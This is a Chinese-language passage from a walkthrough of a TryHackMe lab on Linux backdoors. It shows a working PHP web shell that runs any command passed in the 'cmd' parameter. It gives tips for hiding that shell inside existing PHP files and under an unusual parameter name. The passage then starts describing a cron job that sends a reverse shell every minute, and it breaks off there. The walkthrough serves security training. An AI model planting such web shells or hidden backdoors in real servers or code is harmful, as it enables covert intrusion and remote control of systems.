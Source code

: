 既然您已经知道了这一点，那么您可以尝试创建一个任意名称的 php 文件，并将这段代码放入其中:

```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

这段代码只接受参数“cmd ”,并将执行赋予该参数的任何内容。
注意，我们使用了:" **$_REQUEST['cmd'])** ，这意味着您可以在 GET 或 POST 数据中传递该参数。
既然文件已经保存并准备好，我们可以尝试查询它。
如果您将该文件放在**/var/www/html/shell . PHP**|您应该可以使用[**http://IP/shell . PHP**](http://ip/shell.php)
直接访问它；如果您将 shell 放在了其他地方，请查看它所在的目录，然后尝试通过以下方式访问它:[**http://IP/some directory/shell . PHP**](http://ip/somedirectory/shell.php)

这里有一些方法可以让这个后门变得更加隐蔽:

1.尝试将这段代码添加到/var/www/html 中已经存在的 php 文件中。将它更多地添加到文件中间肯定会使我们的恶意行为更加隐秘。

2.将“cmd”参数更改为其他值…实际上是任何值…只是将其更改为不常见的值。“Cmd”非常普遍，在黑客社区中已经非常有名。

# 任务 4: CronJob 后门

现在让我们进入第三个后门技术！

这个后门包括创建一个 cronjob！

如果您查看一下您的 cronjobs 文件，它是/etc/cronjob，您会看到类似这样的内容:

![](img/f94570b687fa0c6521450eac153fc5b1.png)

[https://tryhackme.com/room/linuxbackdoors](https://tryhackme.com/room/linuxbackdoors)

这表示计划在某个时间在您的机器上运行的所有任务。

一旦您在任何主机上获得 root 访问权限，您就可以添加任何计划的任务。你甚至可以配置一个任务，每分钟都有一个反向 shell 发送给你。这正是我们要做的。

注意任务顶部的两个字母:“m 和 h”

这些字母表示任务应该每小时还是每分钟运行。

在上面的例子中，你可以看到在“h”下面有一个“*”符号。这意味着以下任务将每小时运行一次。
